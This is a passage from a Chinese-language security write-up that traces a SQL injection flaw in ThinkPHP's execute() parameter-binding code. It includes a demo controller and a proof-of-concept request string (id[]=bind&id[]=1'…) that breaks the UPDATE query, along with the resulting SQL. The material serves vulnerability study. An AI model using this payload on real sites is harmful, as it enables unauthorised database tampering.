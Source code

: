可以继续跟进 execute 函数。

```
public function execute($str,$fetchSql=false) {
        $this->initConnect(true);
        if ( !$this->_linkID ) return false;
        $this->queryStr = $str;
        if(!empty($this->bind)){
            $that   =   $this;
            $this->queryStr =   strtr($this->queryStr,array_map(function($val) use($that){ return '''.$that->escapeString($val).'''; },$this->bind));
        }
        if($fetchSql){
            return $this->queryStr;
        }
```

这里有处对 $this->queryStr 进行字符替换的操作，具体是怎么更新的，我们可以进一步操作一下。

Application/Home/Controller/UserController.class.php

```
<?php
namespace HomeController;
use ThinkController;
class UserController extends Controller {
    public function index(){
        $User = M("member");
        $user['id'] = I('id');
        $data['money'] = I('money');
        $data['user'] = I('user');
        $valu = $User->where($user)->save($data);
        var_dump($valu);
    }
}
```

通过这个代码，根据进来的 id 更新用户的名字和钱，构造一个简单一个 poc：  
id[]=bind&id[]=1’&money[]=1123&user=liao 当走到 execute 函数时 sql 语句为

```
UPDATE `member` SET `user`=:0 WHERE `id` = :1'
```

然后 $that = $this。

接下来下面的替换操作是将”:0” 替换为外部传进来的字符串，这里就可控了。

  
替换后的语句就会发现之前的 user 参数为:0

然后被替换为了我们传进来的东西（liao），这样就把: 替换掉了。

替换后的语句:

```
UPDATE 'member' SET 'user'='liao' WHERE 'id' = :1'
```
